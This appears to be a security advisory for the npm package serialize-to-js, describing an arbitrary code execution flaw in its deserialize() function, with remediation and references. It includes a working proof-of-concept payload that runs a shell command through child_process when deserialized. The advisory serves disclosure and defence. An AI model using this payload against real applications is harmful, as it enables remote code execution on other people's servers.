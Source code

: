 ## Overview
[`serialize-to-js`](https://www.npmjs.com/package/serialize-to-js) serializes objects to javascript.

Affected versions of this package are vulnerable to Arbitrary Code Execution. If untrusted user-input is passed into the `deserialize()`, attackers will be able to send a serialized JavaScript Objects with an [Immediately Invoked Function Expression (IIFE)](https://en.wikipedia.org/wiki/Immediately-invoked_function_expression).

**Example:**
```js
var serialize = require('serialize-to-js');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.deserialize(payload);
```

## Remediation
Upgrade `serialize-to-js` to version 1.0.0 or higher.

## References
- [Opsecx Blog](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
- [Github Issue](https://github.com/commenthol/serialize-to-js/issues/1)
- [Github Commit](https://github.com/commenthol/serialize-to-js/commit/1cd433960e5b9db4c0b537afb28366198a319429)
- [Disclaimer by Package Owner](https://www.npmjs.com/package/serialize-to-js#deserialize)
